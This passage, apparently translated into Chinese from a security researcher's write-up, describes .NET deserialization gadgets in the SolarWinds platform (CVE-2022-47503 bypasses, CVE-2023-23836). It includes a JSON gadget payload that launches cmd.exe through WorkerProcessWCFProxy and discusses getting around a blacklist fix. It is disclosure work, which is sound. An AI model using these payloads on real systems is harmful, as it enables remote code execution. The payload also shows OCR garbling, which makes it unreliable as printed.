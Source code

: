 代码段 27 WorkerProcessWCFProxy 构造函数

在 \[1\] 处，定义了构造函数。有四个输入参数，我们可以通过反序列化控制所有这些参数（请参阅前一章）。

在 \[2\] 处，调用了 `CreateWorkerController` 方法。

```bash
private void CreateWorkerController() 
{ 
    this.workerController = new 
WorkerControllerWCFProxy(this.workerConfiguration, this.operationMode, 
this.assemblyName); 
} 
```

代码段 28 CreateWorkerController

可以看到，我们正在调用 `WorkerControllerWCFProxy` 的构造函数。这与我们在前一章中滥用的构造函数相同。

实际上，这里我们有第二个反序列化小工具，因为有一个不同的类正在被反序列化。在 CVE-2022-47503 中，我滥用了 `WorkerControllerWCFProxy` 类。在这里，我正在滥用 `WorkerProcessWCFProxy` 类。如果通过扩展黑名单修复了第一个漏洞，我们仍然可以使用第二个类。

恶意小工具示例：

```bash
{ 
    "$type": "SolarWinds.JobEngine.Engine.WorkerProcessWCFProxy,  
SolarWinds.JobEngine, Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
    "maxConcurrentJobs": 5, 
     "workerConfiguration": { 
        "$type": "SolarWinds.JobEngine.WorkerConfiguration, SolarWinds.JobEngine,  
Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
         "WorkerType": 1, 
        "CommandLine":  
"..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\System32\\cmd.exe", 
         "CommandArguments": "/c calc.exe & "30 
    }, 
    "operationMode": 0, 
    "assemblyName": "whatever" 
}
```

代码段 29 WorkerProcessWCFProxy gadget

#### 1.9 SolarWinds 平台 - 第 4 次绕过 - CVE-2023-23836

前两个小工具是基于一个简单的想法，它允许我们调用 `Process.Start` 方法。当攻击者控制输入参数时，这很容易被发现并且明显是恶意的。

现在，让我们想象一下，如果找到了一个反序列化小工具，它允许我们操控产品的功能，例如：

-   修改配置（实际上，我找到了一些产品的反序列化小工具，允许修改某些插件的配置）。
-   添加/修改用户。
-   触发一些产品特定的功能。
-   等等。

我们都倾向于寻找简单的小工具（就像前两个描述的小工具）。然而，我们总是需要关注反序列化可能引发的不同行为，这可能会带来漏洞风险。

这个反序列化小工具基于 `SolarWinds.IPAM.Storage.Credentials.CredentialInitializer` 类。
